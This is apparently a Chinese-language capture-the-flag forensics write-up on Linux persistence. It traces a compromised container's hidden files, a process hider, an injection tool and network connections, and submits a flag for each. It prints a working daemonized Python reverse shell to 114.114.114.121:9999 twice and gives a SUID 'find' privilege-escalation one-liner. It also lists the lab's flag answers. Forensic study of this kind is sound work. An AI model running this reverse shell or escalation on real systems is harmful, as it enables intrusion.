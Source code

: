# 权限维持-linux权限维持-隐藏

## 一,黑客隐藏的隐藏的文件 完整路径md5

发现`/tmp`下存在可疑的`.temp`文件

```shell
#!/usr/bin/python3

import socket,subprocess,os,sys, time

pidrg = os.fork()
if pidrg > 0:
        sys.exit(0)

os.chdir("/")
os.setsid()
os.umask(0)
drgpid = os.fork()
if drgpid > 0:
        sys.exit(0)

while 1:
        try:
                sys.stdout.flush()
                sys.stderr.flush()
                fdreg = open("/dev/null", "w")
                sys.stdout = fdreg
                sys.stderr = fdreg
                sdregs=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
                sdregs.connect(("114.114.114.121",9999))
                os.dup2(sdregs.fileno(),0)
                os.dup2(sdregs.fileno(),1)
                os.dup2(sdregs.fileno(),2)
                p=subprocess.call(["/bin/bash","-i"])
                sdregs.close()
        except Exception:
                pass
        time.sleep(2)
```

> $ cat /tmp/.temp/libprocesshider/1.py

> **flag{109ccb5768c70638e24fb46ee7957e37}**

## 二,黑客隐藏的文件反弹shell的ip+端口 {ip:port}

```shell
#!/usr/bin/python3

import socket,subprocess,os,sys, time

pidrg = os.fork()
if pidrg > 0:
        sys.exit(0)

os.chdir("/")
os.setsid()
os.umask(0)
drgpid = os.fork()
if drgpid > 0:
        sys.exit(0)

while 1:
        try:
                sys.stdout.flush()
                sys.stderr.flush()
                fdreg = open("/dev/null", "w")
                sys.stdout = fdreg
                sys.stderr = fdreg
                sdregs=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
                sdregs.connect(("114.114.114.121",9999))
                os.dup2(sdregs.fileno(),0)
                os.dup2(sdregs.fileno(),1)
                os.dup2(sdregs.fileno(),2)
                p=subprocess.call(["/bin/bash","-i"])
                sdregs.close()
        except Exception:
                pass
        time.sleep(2)
```

> $ cat /tmp/.temp/libprocesshider/1.py

> **flag{114.114.114.121:9999}**

## 三,黑客提权所用的命令 完整路径的md5 flag{md5} 

```shell
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
libuuid:x:100:101::/var/lib/libuuid:
syslog:x:101:104::/home/syslog:/bin/false
mysql:x:102:105:MySQL Server,,,:/var/lib/mysql:/bin/false
sshd:x:103:65534::/var/run/sshd:/usr/sbin/nologin
ctf:x:1000:33::/home/ctf:
sslh:x:104:108::/nonexistent:/bin/false
```

> $ cat /etc/passwd

查看用户列表

```shell
/bin/mount
/bin/ping
/bin/ping6
/bin/su
/bin/umount
/usr/bin/chfn
/usr/bin/chsh
/usr/bin/find
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/sudo
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
```

> $ find / -perm -u=s -type f 2>/dev/null

切换到`ctf`用户发现`find`命令可以提权

`/usr/bin/find . -exec /bin/sh \; -quit`

> **flag{7fd5884f493f4aaf96abee286ee04120}**

## 四,黑客尝试注入恶意代码的工具完整路径md5

```shell

root@xuanji:/tmp/.temp/libprocesshider# find / -name '.*' 2>/dev/null|grep -v 'sys'
/etc/.pwd.lock
/etc/cron.d/.placeholder
/etc/cron.daily/.placeholder
/etc/cron.hourly/.placeholder
/etc/cron.monthly/.placeholder
/etc/cron.weekly/.placeholder
/etc/init.d/.legacy-bootordering
/etc/skel/.bash_logout
/etc/skel/.bashrc
/etc/skel/.profile
/etc/mysql/conf.d/.keepme
/home/ctf/.bash_logout
/home/ctf/.bashrc
/home/ctf/.profile
/home/ctf/.bash_history
/opt/.cymothoa-1-beta
/root/.bashrc
/root/.profile
/root/.bash_history
/root/.viminfo
/root/.ssh
/root/.cache
/run/secrets/kubernetes.io/serviceaccount/..data
/run/secrets/kubernetes.io/serviceaccount/..2024_06_08_05_37_51.4144190794
/tmp/.temp
/tmp/.temp/libprocesshider/.git
/tmp/.temp/libprocesshider/.gitignore
/usr/share/php/.registry
/.dockerenv
```

搜索发现`/opt/.cymothoa-1-beta`是一个注入工具,`/opt/.cymothoa-1-beta/cymothoa`

> **flag{087c267368ece4fcf422ff733b51aed9}**

## 五,使用命令运行 ./x.xx 执行该文件  将查询的 Exec****** 值 作为flag提交 flag{/xxx/xxx/xxx}

```shell
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      10/sshd
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      11/apache2
tcp        0      1 10.244.4.78:53068       114.114.114.121:9999    SYN_SENT    588/python3
tcp        0      0 10.244.4.78:22          10.244.0.1:45653        ESTABLISHED 446/1
tcp6       0      0 :::22                   :::*                    LISTEN      10/sshd
```

> $ netstat -lanpt

运行后查看网络连接

```shell
/usr/bin/python3./1.py
```

> $ cat /proc/588/cmdline

```shell
/usr/bin/python3
```

> $ which python3

```shell
lrwxrwxrwx. 1 root root 9 Mar 23  2014 /usr/bin/python3 -> python3.4
```

> $ ls -lah /usr/bin/python3

> **flag{/usr/bin/python3.4}**









